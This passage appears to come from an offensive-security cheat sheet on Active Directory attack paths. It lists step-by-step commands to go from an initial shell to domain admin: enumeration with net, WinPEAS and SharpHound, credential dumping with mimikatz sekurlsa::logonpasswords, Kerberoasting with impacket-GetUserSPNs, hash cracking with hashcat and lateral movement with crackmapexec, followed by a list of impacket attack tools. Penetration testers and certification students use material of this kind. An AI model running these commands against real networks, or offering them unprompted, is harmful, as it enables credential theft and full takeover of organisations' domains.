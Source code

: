 ### Path 2: Initial Access → Local Admin → Domain Admin
```bash
# 1. Get initial shell (web app, service exploit, etc.)

# 2. Enumerate domain context
net config workstation
net user /domain

# 3. Run WinPEAS/SharpHound
.\winPEAS.exe
.\SharpHound.exe -c all

# 4. Local privilege escalation
# Use Windows PrivEsc techniques

# 5. Dump credentials as SYSTEM
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# 6. Use found credentials for lateral movement
```

### Path 3: Service Account → Kerberoasting → Domain Admin
```bash
# 1. Find service accounts
impacket-GetUserSPNs <domain>/<username>:<password>

# 2. Request tickets
impacket-GetUserSPNs <domain>/<username>:<password> -request -format hashcat

# 3. Crack tickets
hashcat -m 13100 tickets.txt rockyou.txt

# 4. Use cracked service account
crackmapexec smb <target-range> -u <service-account> -p <cracked-password>
```

## Essential Tools for AD Attacks

### Impacket Suite (Linux)
```bash
# Main tools
impacket-GetADUsers
impacket-GetNPUsers  
impacket-GetUserSPNs
impacket-secretsdump
impacket-psexec
impacket-wmiexec
impacket-smbexec
impacket-getTGT
impacket-getST
```
